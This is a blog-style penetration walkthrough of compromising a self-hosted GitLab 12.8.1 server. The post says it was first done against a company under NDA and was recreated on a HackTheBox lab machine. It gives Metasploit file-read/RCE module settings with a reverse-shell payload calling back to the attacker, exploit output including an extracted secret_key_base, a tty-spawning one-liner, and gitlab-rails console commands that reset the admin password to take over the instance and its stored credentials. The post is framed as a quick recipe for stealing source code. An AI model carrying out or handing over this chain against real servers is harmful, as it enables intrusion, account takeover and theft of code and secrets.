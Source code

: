 ```yaml
---
layout: default
---
```


### Steal project Source Code in 60 seconds

----------

![title](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/title.jpg)

----------

The journey starts with Company Gitlab CI with open register functional that i got from the rsource company list , Gitlab is self hosted on barametal hosting. The Current version of the gitlab-ce is vulnerable to LFI and RCE exploiting the RCE and getting initial shell in a server , Changing the admin account with github-rails console and login as him on gitlab. Got the private credentials. keys in a project-repo.

For notes used test env as HTB Machine - Laboratory because real env under NDA.

####  Gitlab CI resource

And i can see that Gitlab is hosted. I saw open Register function and Try do it!

----------

![register](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/register.jpg)

----------

Now i registered myself as oleksii and logged in

----------

![login](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/login.jpg)

----------

Didn’t see anything good and juicy then i just go to `https://gitlab.site.io/help`

----------

![version](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/version.jpg)

----------

So its 12.8.1 , so searched a bit about it on google and got so many CVEs. And on rapid7.com site saw info about vulnerabilities, it was disclosed few months ago (Created 12/10/2020) and was about LFI & RCE. The RCE only affects versions 12.4.0 and above when the vulnerable `experimentation_subject_id` cookie was introduced. Tested on GitLab 12.8.1 and 12.4.0.

This picture in Company Gitlab CI says a lot:)

----------

![asap](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/asap.jpg#center)

----------

#### RCE in the gitlab

Now i can that i exploitetion RCE using msfconsole tool `https://www.rapid7.com/db/modules/exploit/multi/http/gitlab_file_read_rce` because exploit was development and added it to exploit list. 

```
msf6 exploit(multi/http/gitlab_file_read_rce) > use exploit/multi/http/gitlab_file_read_rce
msf6 exploit(multi/http/gitlab_file_read_rce) > show options 

Module options (exploit/multi/http/gitlab_file_read_rce):

   Name             Current Setting                                               
   ----             ---------------                                               
   USERNAME         oleksii@test.test                                             
   PASSWORD         oleksii@test.test                                             
   RHOSTS           10.10.10.*                                                         
   RPORT            443                                                           
   SECRETS_PATH     /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml  
   TARGETURI        /users/sign_in                                                
   VHOST            gitlab.site.io                                                

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.*       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

Exploitation RCE vulnerability: 

```
[*] Started reverse TCP handler on 10.10.14.**:2222 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version.
[*] Logged in to user oleksii
[*] Created project /oleksii/irUhEXC3
[*] Created project /oleksii/Dq5g60ow
[*] Created issue /oleksii/irUhEXC3/issues/1
[*] Executing arbitrary file load
[+] File saved as: '/root/.msf4/loot/20210102160557_default_10.10.10.*_gitlab.secrets_454778.txt'
[+] Extracted secret_key_base 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
[*] NOTE: Setting the SECRET_KEY_BASE option with the above value will skip this arbitrary file read
[*] Attempting to delete project /oleksii/irUhEXC3
[*] Deleted project /oleksii/irUhEXC3
[*] Attempting to delete project /oleksii/Dq5g60ow
[*] Deleted project /oleksii/Dq5g60ow
[*] Command shell session 3 opened (10.10.14.*:2222 -> 10.10.10.*:50878) at 2021-01-02 16:06:02 -0500

ls -la
total 8
drwx------ 2 git root 4096 Jul  2  2020 .
drwxr-xr-x 9 git root 4096 Jan  2 20:41 ..
python3 -c 'import pty; pty.spawn("/bin/sh")'

$ls -la
drwx------ 2 git root 4096 Jul  2  2020 .
drwxr-xr-x 9 git root 4096 Jan  2 20:41 ..

```

Often during pen tests you may obtain a shell without having tty, yet wish to interact further with the system. Here are some commands which will allow you to spawn a tty shell. Obviously some of this will depend on the system environment and installed packages.

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

#### Resetting admin password

Now since the gitlab is installed i can spawn a gitlab-rails console and reset the admin password , and check who is admin. Resetting admin password offical document link `https://docs.gitlab.com/12.10/ee/security/reset_root_password.html`

Used command from this doc I could reset admin password. Start a Ruby on Rails console with this command:
```
 gitlab-rails console -e production
```
Wait until the console has loaded.

There are multiple ways to find your user. You can search for email or username.
```
  user = User.where(id: 1).first
```
Found Gitlab admin user:

```
irb(main):008:0> user = User.where(id: 1).first
user = User.where(id: 1).first
=> #<User id:1 @dexter>
```

or

Other type get username and email without Gitlab authentification is use api `https://gitlab.site.io/api/v4/users/1`

```
{
  "id": 1,
  "name": "Dexter McPherson",
  "username": "dexter",
  "state": "active",
  "avatar_url": "http://gitlab.site.iouploads/-/system/user/avatar/1/avatar.png",
  "web_url": "http://gitlab.site.io/dexter",
  "created_at": "2020-07-02T18:02:18.859Z",
  "bio": "",
  "location": "",
  "public_email": "",
  "skype": "",
  "linkedin": "",
  "twitter": "",
  "website_url": "",
  "organization": ""
}
```

Now you can change your password:

```
 user.password = 'secret_pass'
 user.password_confirmation = 'secret_pass'
```

It’s important that you change both password and password_confirmation to make it work.

Don’t forget to save the changes.

```
 user.save!
```
Exit the console and try to login with your new password.

#### Login as admin on gitlab

Now can login as admin - dexter : secret_pass and can see all repos with credentials and keys. 

So now see how can steal project Source code in 60 seconds because I think If you repeat all commands from this note then spend no more than 60 seconds. 

 